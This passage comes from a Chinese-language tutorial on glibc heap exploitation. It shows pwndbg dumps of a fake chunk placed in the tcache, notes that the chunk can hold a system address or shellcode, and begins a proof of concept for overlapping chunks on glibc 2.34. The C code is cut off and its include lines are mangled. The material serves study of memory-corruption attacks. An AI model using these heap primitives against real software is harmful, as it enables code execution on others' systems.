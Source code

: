 这里执行完之后，就完成了 fake_chunk 进入 tcache bin。  
然后再次申请 0x30 的内存，就会首先从 tcache 中选取。

```
pwndbg> x/4gx p
0x7fffffffdab0: 0x00000007fffffffd      0x0000000000000000
0x7fffffffdac0: 0x00007ffff7dcd000      0xb48ee8d225b73400
pwndbg> x/4gx b
0x7fffffffdab0: 0x00000007fffffffd      0x0000000000000000
0x7fffffffdac0: 0x00007ffff7dcd000      0xb48ee8d225b73400
pwndbg> x/8gx fake_chunk
0x7fffffffdaa0: 0x0000000000000000      0x0000000000000040
0x7fffffffdab0: 0x00000007fffffffd      0x0000000000000000
0x7fffffffdac0: 0x00007ffff7dcd000      0xb48ee8d225b73400
0x7fffffffdad0: 0x00007fffffffdbe8      0x00007ffff7a091b3

```

b 就获得了伪造的 chunk 内容。  
伪造的 chunk 可以写 system 地址，或者放更多的 shellcode 加以利用。

overlapping chunks glibc2.34
----------------------------

### 原理

通过修改 chunk 头部中的 chunk_size 部分，来 “合并” 两个 chunk。 如果 free 后再次申请一个 chunk，而 size 又在 chunk_size 所在 tcache bin idx 中，malloc 就会从 tcache 中取出 “合并” 好的 chunk。

### POC

```
/*
 A simple tale of overlapping chunk.
 This technique is taken from
 http://www.contextis.com/documents/120/Glibc_Adventures-The_Forgotten_Chunks.pdf
*/
 
#include #include #include #include #include int main(int argc , char* argv[])
{
    setbuf(stdout, NULL);
 
    long *p1,*p2,*p3,*p4;
    printf("\nThis is another simple chunks overlapping problem\n");
    printf("The previous technique is killed by patch: https://sourceware.org/git/?p=glibc.git;a=commitdiff;h=b90ddd08f6dd688e651df9ee89ca3a69ff88cd0c\n"
           "which ensures the next chunk of an unsortedbin must have prev_inuse bit unset\n"
           "and the prev_size of it must match the unsortedbin's size\n"
           "This new poc uses the same primitive as the previous one. Theoretically speaking, they are the same powerful.\n\n");
 
    printf("Let's start to allocate 4 chunks on the heap\n");
 
    p1 = malloc(0x80 - 8);
    p2 = malloc(0x500 - 8);
    p3 = malloc(0x80 - 8);
 
    printf("The 3 chunks have been allocated here:\np1=%p\np2=%p\np3=%p\n", p1, p2, p3);
 
    memset(p1, '1', 0x80 - 8);
    memset(p2, '2', 0x500 - 8);
    memset(p3, '3', 0x80 - 8);
 
    printf("Now let's simulate an overflow that can overwrite the size of the\nchunk freed p2.\n");
    int evil_chunk_size = 0x581;
    int evil_region_size = 0x580 - 8;
```